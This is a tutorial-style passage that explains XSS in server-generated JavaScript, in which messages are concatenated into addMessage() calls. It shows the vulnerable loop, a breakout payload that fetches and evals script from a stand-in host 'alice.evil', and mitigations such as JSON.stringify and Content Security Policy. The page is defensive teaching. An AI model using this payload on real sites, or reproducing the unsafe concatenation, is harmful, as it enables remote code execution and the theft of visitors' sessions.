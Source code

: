 The messages are loaded by a script that looks like this:

    addMessage("Message 1");
    addMessage("Message 2");
    addMessage("Message 3");
    addMessage("Message 4");
    addMessage("Message 5");
    addMessage("Message 6");

The `addMessage` function adds a posted message to the DOM. However, in an effort to avoid XSS, **any HTML in messages posted is escaped.**

The script is generated **on the server** like this:

    for(var i = 0; i < messages.length; i++){
        script += "addMessage(\"" + messages[i] + "\");";
    }

So alice posts a message that says: `My mom said: "Life is good. Pie makes it better. "`. Than when she previews the message, instead of seeing her message she sees an error in the console:

    Uncaught SyntaxError: missing ) after argument list

Why? Because the generated script looks like this:

    addMessage("My mom said: "Life is good. Pie makes it better. "");

That's a syntax error. Than Alice posts:

    I like pie ");fetch("https://alice.evil/js_xss.js").then(x=>x.text()).then(eval);//

Then the generated script looks like:

    addMessage("I like pie ");fetch("https://alice.evil/js_xss.js").then(x=>x.text()).then(eval);//");

That adds the message `I like pie`, but it also **downloads and runs `https://alice.evil/js_xss.js` whenever someone visits Bob's site.**


# Mitigation:

1. Pass the message posted into [JSON.stringify()](https://www.wikiod.com/javascript/json#Serializing a value)
2. Instead of dynamically building a script, build a plain text file containing all the messages that is later fetched by the script
3. **Add a [Content Security Policy](https://stackoverflow.com/q/30280370/6560716) that refuses to load active content from other domains**

## Why scripts from other people can harm your website and its visitors
If you don't think that malicious scripts can harm your site, **you are wrong**. Here is a list of what a malicious script could do:

1. Remove itself from the DOM so that **it can't be traced**
2. Steal users' session cookies and **enable the script author to log in as and impersonate them**
3. Show a fake "Your session has expired. Please log in again." message that **sends the user's password to the script author**.
4. Register a malicious service worker that runs a malicious script **on every page visit** to that website.
5. Put up a fake paywall demanding that users **pay money** to access the site **that actually goes to the script author**.


  [1]: https://i.stack.imgur.com/CfBYJ.png